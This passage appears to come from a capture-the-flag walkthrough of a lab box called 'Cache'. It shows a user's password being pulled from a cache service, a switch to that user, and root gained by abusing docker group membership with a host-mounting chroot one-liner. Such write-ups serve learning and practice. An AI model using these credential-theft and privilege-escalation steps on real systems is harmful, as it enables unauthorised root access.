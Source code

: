 Let's see what that user and password is!

```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

Nice, let's see if they work:

```
su luffy
Password: 0n3_p1ec3

luffy@cache:
```

We have the second user!

## Rooting the Box

If we look at luffy's groups, we can see he's in the docker group. This makes for a very easy privesc!

```
groups

luffy@cache:/home$ groups
luffy docker
```

We can see what docker images exist:

```
docker image list

REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
```

Now, we can just run the commands listed for docker on GTFOBins:

```
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh

# whoami
root
```

Voila, root!

